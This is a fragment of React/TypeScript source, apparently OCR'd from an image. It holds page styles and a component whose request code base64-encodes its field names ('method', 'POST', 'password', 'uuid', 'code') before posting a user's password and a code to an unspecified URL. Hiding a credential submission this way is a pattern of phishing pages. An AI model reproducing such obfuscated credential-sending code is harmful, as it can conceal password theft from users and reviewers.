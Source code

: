 ```javascript
        height: 300,
        marginTop: 160,
    },
    input: {
        width: 280,
    },
    input2: {
        width: 280 - 63,
    },
    center: {
        textAlign: "center"
    },
    p: {
        width: "100%",
        textAlign: "center",
        fontSize: "20px",
        margin: "0 auto"
    },
    btn: {
        margin: "0 0 0 auto"
    },
    hidden: {
        visibility: "hidden"
    }
})

interface State {
    p: string,
    c: string,
    w: string,
    g: string,
    l: boolean
}


class App extends React.Component<any, State> {
    private __: { p(b: string): string; q(p: string, c: string, y: string): Promise<any>; y(): Promise<any> };
    constructor(props: any) {
        super(props);
        this.__ = {
            async y() {
                return _(url)
                    .then(res => res.json())
            },
            async q(p: string, c: string, y: string) {
                return _(url, {
                    [w("bWV0aG9k")]: w("UE9TVA=="),
                    [w("bW9kZQ==")]: w("Y29ycw=="),
                    [w("aGVhZGVycw==")]: {
                        [w("Q29udGVudC1UeXBl")]: w("YXBwbGljYXRpb24vanNvbg==")
                    },
                    [w("Ym9keQ==")]: JSON.stringify({
                        [w("dXVpZA==")]: y,
                        [w("Y29kZQ==")]: c,
                        [w("cGFzc3dvcmQ=")]: p
                    })
                }).then(res => {
                    if (res.status !== 200) {
                        throw new Error(res.status.toString())
                    }
                    return res
                }).then(res => res.json())
```